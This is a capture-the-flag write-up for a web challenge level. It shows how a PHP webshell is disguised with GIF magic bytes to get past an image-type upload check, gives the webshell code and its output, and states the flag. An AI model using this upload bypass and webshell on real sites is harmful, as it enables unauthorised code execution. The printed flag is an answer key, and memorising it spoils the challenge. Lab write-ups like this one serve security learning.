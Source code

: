 ```yaml
---
layout: default
title: level08
---
```


Another `RCE` using webshell we uploading. This time, we pass this check: 
```php
if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) 
```
By just providing the magic `IMAGETYPE_GIF` which is `GIF`. 

Our webshell will show us the files in the folders, and then we'll read the flag.

```php
<?php 
    $dir = getcwd();  // Current working directory

    $files = scandir($dir);  // Get all files in the current directory
    echo "Files in directory: <br>";
    foreach ($files as $file) {
        echo $file . "<br>";
    }

    echo "Content of flag.txt is:\n".'<br>';
    echo file_get_contents('flag.txt')."<br>";
?>
```
```html
GIF Files in directory: 
<br>.
<br>..
<br>flag.txt
<br>index.php
<br>php-fpm.sock
<br>source.php
<br>uploads
<br>Content of flag.txt is:
<br>
WEBSEC{BypassingImageChecksToRCE}
<br>
```

You can easily upload this GIF (of course this isn't a valid GIF file...), [Fake Gif](./images/level08.gif)


**Flag:** ***`WEBSEC{BypassingImageChecksToRCE}`*** 
